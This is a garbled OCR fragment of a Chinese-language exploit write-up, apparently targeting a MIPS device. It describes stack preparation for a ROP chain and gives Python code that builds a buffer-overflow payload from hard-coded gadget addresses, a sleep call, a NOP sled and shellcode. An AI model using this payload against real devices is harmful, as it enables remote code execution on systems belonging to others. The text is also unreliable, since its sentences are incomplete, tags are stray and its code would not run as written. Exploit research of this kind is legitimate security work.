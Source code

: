 - 第一次被调用时，`t9`中的地址跳转。为了让工具正常工作，需要准备堆栈。在第一次调用过程中，将睡眠地址放在`sp`。在第二次调用过程中，`sp`，再根据最终情况填写`s1`（跳转至现有shellcode）</b>![](./img/stackfind.png)</b>![](./img/stackfind1.png)
- s2中的堆栈地址</b>![](./img/finds2.png)
- 确认gadget
```
nop = “\x22\x51\x44\x44”
gadg_1 = “\x2A\xB3\x7C\x60”
gadg_2 = “\x2A\xB1\x78\x40”
sleep_addr = “\x2a\xb3\x50\x90”
stack_gadg = “\x2A\xAF\x84\xC0”
call_code = “\x2A\xB2\xDC\xF0″
def first_exploit(url, auth):
  rop = “A”*164 + gadg_2  + gadg_1 + “B”*0x20 + sleep_addr
  rop += “C”*0x20 + call_code + “D”*4 + stack_gadg + nop*0x20 + shellcode
```
